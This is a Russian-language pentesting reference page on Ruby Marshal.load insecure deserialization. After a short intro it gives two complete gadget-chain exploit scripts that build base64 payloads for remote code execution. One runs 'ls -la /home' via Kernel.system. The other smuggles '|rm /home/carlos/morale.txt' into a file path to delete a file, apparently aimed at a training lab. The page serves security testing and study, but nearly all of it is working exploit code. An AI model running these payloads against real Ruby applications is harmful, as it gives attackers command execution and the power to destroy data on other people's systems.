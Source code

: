 # Ruby

Функция `Marshal.load`.

Payloads All The Things: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)

Сериализованные данные начинаются с:

```
04 08 ...
```

Пример:

![](<../../../.gitbook/assets/изображение (1) (1) (2).png>)

## RCE Gadgets

### Universal Gadget Ruby 2.x-3.x

Link: [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "ls -la /home")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
# puts Marshal.load(payload)


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

### Unversal Gadget Ruby 2.0-2.5

```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
    def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|rm /home/carlos/morale.txt")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
    def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
    def marshal_dump
        [$dependency_list]
    end
end

payload = Marshal.dump(Gem::Requirement.new)

require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
